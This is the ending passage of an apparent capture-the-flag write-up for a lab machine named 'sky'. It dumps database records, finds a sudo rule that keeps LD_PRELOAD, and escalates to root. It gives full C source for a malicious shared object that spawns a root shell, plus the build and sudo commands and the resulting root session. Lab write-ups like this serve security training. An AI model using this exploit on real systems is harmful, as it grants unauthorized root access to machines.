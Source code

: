 { "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "**************" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
</pre>

Let's check which priviledge <code class="language-plaintext highlighter-rouge">webdeveloper</code> has.

<pre>
webdeveloper@sky:/tmp$ sudo -l
sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
</pre>

There is a good article how to exploit <a href="https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/">LD_PRELOAD</a>.
A first create a <code class="language-plaintext highlighter-rouge">shell.c</code> has file.

{% highlight c++ %}
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
{% endhighlight c++ %}

Compile it to generate a shared object with .so extension likewise .dll file in the Windows operating system.

<pre>gcc -fPIC -shared -o shell.so shell.c -nostartfiles</pre>

And send it to victime machine. After execution we'll get root.

<pre>
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so sky_backup_utility
sudo LD_PRELOAD=/tmp/shell.so sky_backup_utility
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
3a6**************cbe267df2*******
</pre>
